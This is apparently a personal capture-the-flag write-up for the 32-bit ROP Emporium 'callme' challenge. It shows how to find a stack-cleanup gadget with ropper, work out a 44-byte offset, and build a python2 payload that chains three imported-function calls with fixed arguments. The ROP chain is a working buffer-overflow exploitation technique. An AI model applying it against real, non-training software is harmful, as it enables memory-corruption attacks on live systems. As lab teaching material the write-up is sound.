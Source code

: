 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# [[callme]]
### Contents
***
- [Task Description](03%20-%20callme.md#Task%20Description)
- [32 bit](03%20-%20callme.md#32%20bit)

### Task Description
***
Reliably make consecutive calls to imported functions.  
Use some new techniques and learn about the Procedure Linkage Table.

### 32 bit
***
Reading the site we need to call three functions while passing in the same three arguments.

args:  `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`
functions: callme_one(), callme_two(), callme_three()

Getting the memory locations of the three functions:
callme_one():     `0xf7fc0d3d`
callme_two():     `0xf7fc0755`
callme_three():   `0xf7fc0855`

We also need a a way to remove the arguments off the stack after before we add the next function or they wont populate correctly.
You can find this gadget by running ropper:
```bash
ropper -f callme32 --search pop

0x080487f9: pop esi; pop edi; pop ebp; ret; 
```
Using this memory location the exploit chain will look like this:

Offset
callme1
gadget
arg1
arg2
arg3
callme2
gadget
arg1
arg2
arg3
callme3
gadget
arg1
arg2
arg3

Next is to find the buffer size.
44

encode everything in little endian and send it to a payload.
```bash
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"+"\x50\x85\x04\x08"+"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" +"\xe0\x84\x04\x08" +"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' > callme-32-payload
```

Which gives the flag :)
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 13-10-2022
Last modified date: Thursday 13th October 2022
***
